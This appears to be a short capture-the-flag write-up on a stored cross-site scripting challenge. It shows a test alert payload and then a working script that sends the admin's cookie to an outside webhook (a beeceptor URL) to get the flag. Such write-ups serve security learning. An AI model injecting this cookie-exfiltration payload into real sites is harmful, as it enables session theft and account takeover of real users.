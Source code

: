 Read the documents, it is getting started. The form to post a message is certainly XSS injectable.

To check this, we can just inject

```
<script>alert('123')</script>
```

An alert window pops up, so we can inject javascript code. To get the cookie, we are going to put the cookie into a link, and request that link. You can request your own server, or create a beeceptor endpoint. Mine will be called ayaya, and available at the address: https://ayaya.free.beeceptor.com

Then, we can inject the following code in the form:

```
<script>document.write('<img src="https://ayaya.free.beeceptor.com/?cookie='+document.cookie+'"></img>');</script>
```

Wait some time, and you will see a request on your webhook:

```
/?cookie=ADMIN_COOKIE=...
```

The flag is the admin cookie !

